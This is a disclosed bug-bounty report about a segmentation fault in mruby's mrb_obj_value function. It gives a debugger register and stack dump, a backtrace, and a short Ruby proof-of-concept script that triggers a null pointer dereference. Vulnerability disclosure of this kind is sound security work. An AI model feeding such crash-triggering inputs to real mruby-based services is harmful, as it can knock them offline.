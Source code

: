 # SIGSEGV - mrb_obj_value

## Report Details
- **Report ID**: 213779
- **URL**: https://hackerone.com/reports/213779
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-03-15T20:35:55.658Z
- **Disclosed**: 2017-04-19T07:40:02.815Z

## Reporter
- **Username**: icanthack
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Linux Ubuntu Xenial 64
commit f8b31a0db671b71d2794ce866b87596a09c10bf0
Author: Yukihiro "Matz" Matsumoto <matz@ruby-lang.org>
Date:   Wed Mar 15 09:00:03 2017 +0900

output
```
RAX: 0x0 
RBX: 0x6c4e80 --> 0x1 
RCX: 0x6c4e50 --> 0x6b4320 --> 0x112 
RDX: 0xf222f69400000003 
RSI: 0x6b4320 --> 0x112 
RDI: 0x0 
RBP: 0x7fffffffdb10 --> 0x7fffffffe1d0 --> 0x7fffffffe220 --> 0x7fffffffe280 --> 0x7fffffffe410 --> 0x7fffffffe440 (--> ...)
RSP: 0x7fffffffdaf0 --> 0x6bc8d0 --> 0x9109 
RIP: 0x417da4 (<mrb_obj_value+16>:	movzx  eax,BYTE PTR [rax])
R8 : 0x3 
R9 : 0x7fffffffe1d0 --> 0x7fffffffe220 --> 0x7fffffffe280 --> 0x7fffffffe410 --> 0x7fffffffe440 --> 0x7fffffffe500 (--> ...)
R10: 0x12 
R11: 0x7ffff7899390 --> 0xfffda380fffda0af 
R12: 0x0 
R13: 0x3 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x417d98 <mrb_obj_value+4>:	sub    rsp,0x20
   0x417d9c <mrb_obj_value+8>:	mov    QWORD PTR [rbp-0x18],rdi
   0x417da0 <mrb_obj_value+12>:	mov    rax,QWORD PTR [rbp-0x18]
=> 0x417da4 <mrb_obj_value+16>:	movzx  eax,BYTE PTR [rax]
   0x417da7 <mrb_obj_value+19>:	movzx  eax,al
   0x417daa <mrb_obj_value+22>:	mov    DWORD PTR [rbp-0x8],eax
   0x417dad <mrb_obj_value+25>:	mov    rax,QWORD PTR [rbp-0x18]
   0x417db1 <mrb_obj_value+29>:	mov    QWORD PTR [rbp-0x10],rax
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdaf0 --> 0x6bc8d0 --> 0x9109 
0008| 0x7fffffffdaf8 --> 0x0 
0016| 0x7fffffffdb00 --> 0x1 
0024| 0x7fffffffdb08 --> 0x2 
0032| 0x7fffffffdb10 --> 0x7fffffffe1d0 --> 0x7fffffffe220 --> 0x7fffffffe280 --> 0x7fffffffe410 --> 0x7fffffffe440 (--> ...)
0040| 0x7fffffffdb18 --> 0x41b658 (<mrb_vm_exec+4559>:	mov    QWORD PTR [rbp-0x2e0],rax)
0048| 0x7fffffffdb20 --> 0x6b20e8 --> 0x6fc830 --> 0x708800 --> 0x1 
0056| 0x7fffffffdb28 --> 0x71bba4 --> 0x24000980181001b 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000417da4 in mrb_obj_value (p=0x0) at /home/ubuntu/mruby/include/mruby/value.h:212
212	  SET_OBJ_VALUE(v, (struct RBasic*)p);
```


backtrace
```
#0  0x0000000000417da4 in mrb_obj_value (p=0x0) at /home/ubuntu/mruby/include/mruby/value.h:212
#1  0x000000000041b658 in mrb_vm_exec (mrb=0x6b2010, proc=0x6b4d40, pc=0x71bba4)
    at /home/ubuntu/mruby/src/vm.c:1096
#2  0x000000000041a487 in mrb_vm_run (mrb=0x6b2010, proc=0x6b4d40, self=..., stack_keep=0x0)
    at /home/ubuntu/mruby/src/vm.c:820
#3  0x000000000042291f in mrb_top_run (mrb=0x6b2010, proc=0x6b4d40, self=..., stack_keep=0x0)
    at /home/ubuntu/mruby/src/vm.c:2615
#4  0x000000000044925b in mrb_load_exec (mrb=0x6b2010, p=0x70eda0, c=0x70da00)
    at /home/ubuntu/mruby/mrbgems/mruby-compiler/core/parse.y:5760
#5  0x00000000004492f1 in mrb_load_file_cxt (mrb=0x6b2010, f=0x70e9f0, c=0x70da00)
    at /home/ubuntu/mruby/mrbgems/mruby-compiler/core/parse.y:5769
#6  0x00000000004022f0 in main (argc=0x2, argv=0x7fffffffe5e8)
    at /home/ubuntu/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:227
#7  0x00007ffff7725830 in __libc_start_main (main=0x401fd6 <main>, argc=0x2, argv=0x7fffffffe5e8, 
    init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, 
    stack_end=0x7fffffffe5d8) at ../csu/libc-start.c:291
#8  0x00000000004019b9 in _start ()

```

PoC
```
begin
rescue => a
end

begin
  b
rescue begin
    c ""
  rescue => d
    0
  ensure
  end
end
```

## Attachments
No attachments

